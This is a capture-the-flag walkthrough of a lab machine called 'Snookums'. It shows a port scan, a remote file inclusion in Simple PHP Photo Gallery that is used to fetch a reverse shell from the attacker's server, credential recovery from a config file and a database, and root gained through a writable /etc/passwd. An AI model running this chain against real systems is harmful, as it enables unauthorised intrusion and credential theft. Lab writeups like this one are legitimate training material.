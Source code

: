 # Snookums

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.58 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 22:49 +08
Warning: 192.168.197.58 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.197.58
Host is up (0.17s latency).
Not shown: 65484 filtered tcp ports (no-response), 43 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
33060/tcp open  mysqlx
```

Lots of ports open.

### PHP Gallery -> RFI + RCE

Port 80 was running a Simple PHP Photo Gallery instance:

<figure><img src="../../../.gitbook/assets/image (1533).png" alt=""><figcaption></figcaption></figure>

This thing might be vulnerable to an RFI based on `searchsploit`:

```
$ searchsploit SimplePHP
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
FREEsimplePHPGuestbook - 'Guestbook.php' Remote Code Execu | php/webapps/7079.txt
SimplePHPGal 0.7 - Remote File Inclusion                   | php/webapps/48424.txt
```

The PoC is quite simple to test:

```
### Poc  :

[+]   site.com/image.php?img= [ PAYLOAD ]
```

And it does work since I can make the website send requests to my HTTP server:

<figure><img src="../../../.gitbook/assets/image (3536).png" alt=""><figcaption></figcaption></figure>

To exploit this, we can just host a PHP reverse shell from PentestMonkey and make the website call it by visiting [http://192.168.197.58/image.php?img=http://192.168.45.177/rev.php](http://192.168.197.58/image.php?img=http://192.168.45.177/rev.php).

<figure><img src="../../../.gitbook/assets/image (4007).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SQL Creds -> Michael Shell

Within the `/var/www/html` file, there's a `db.php` folder that contains MySQL credentials:

```
bash-4.2$ cat db.php 
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'MalapropDoffUtilize1337');
define('DBNAME', 'SimplePHPGal');
?>
```

Using this, we can login using `mysql`:

```
bash-4.2$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.20 MySQL Community Server - GPL

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

Within the MySQL database there were some credentials:

```
mysql> show tables;
+------------------------+
| Tables_in_SimplePHPGal |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.00 sec)

mysql> select * from users
    -> ;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+
```

These are just  `base64` encoded strings, and we can easily find the cleartext passwords. `michael` is the only user within `/home`, so we can decode his password:

```
$ echo 'U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==' | base64 -d | base64 -d
HockSydneyCertify123
```

Then, just use `su`:

<figure><img src="../../../.gitbook/assets/image (2884).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

### Writeable /etc/passwd -> Root

`michael` owns `/etc/passwd`. This is findable by running `linpeas.sh`:

```
[michael@snookums ~]$ ls -la /etc/passwd
-rw-r--r--. 1 michael root 1162 Jun 22  2021 /etc/passwd
```

Using this, we can easily create a new root user.&#x20;

<figure><img src="../../../.gitbook/assets/image (3978).png" alt=""><figcaption></figcaption></figure>

Rooted!
